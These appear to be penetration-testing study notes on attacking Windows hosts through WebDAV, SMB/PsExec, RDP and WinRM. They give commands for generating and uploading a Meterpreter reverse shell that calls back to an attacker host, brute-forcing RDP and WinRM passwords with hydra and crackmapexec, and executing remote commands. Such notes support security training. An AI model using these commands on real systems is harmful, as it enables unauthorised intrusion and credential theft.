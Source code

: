 # System/Host Based Attacks
## Windows
### Windows Vulnerabilities
**Exploiting WebDAV with Metasploit**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=2.2.2.2 LPORT=1234 -f asp > shell.asp
cadaver http://1.1.1.1/webdav
put /root/shell.asp
service postgresql start

use multi/handler
set payload windows/meterpreter/reverse_tcp

sysinfo
getuid

search iis upload
```

**Exploiting SMB with PsExec**
PsExec is lightweight telnet replacement. Similar to RDP, but command line.
```
search smb_login
set USER_FILE ...wordlist
set PASS_FILE ...wordlist

psexec.py Administrator@1.1.1.1 cmd.exe

MSF: search psexec
```

**EternalBlue**
Use metasploit on SMBv1.

**Exploiting RDP**
Default port is 3389, but often on other ports. Check ports with MSF.
```
search rdp_scanner

hydra -L ...common_users -P ...unix_passwords rdp://1.1.1.1 -s 3333
xfreerdp /u:administrator /p:qwertyuiop /v:1.1.1.1:3333
```

**BlueKeep**
RDP vulnerability. Use metasploit.

**Exploiting WinRM**
Typically on ports 5985 or 5986.
```
crackmapexec winrm 1.1.1.1 -u administrator -p ...unix_passwords
crackmapexec winrm 1.1.1.1 -u administrator -p tinkerbell -x "systeminfo"

evil-winrm.rb -u administrator -p 'tinkerbell' -i 1.1.1.1

search winrm_script
set FORCE_VBS true
```

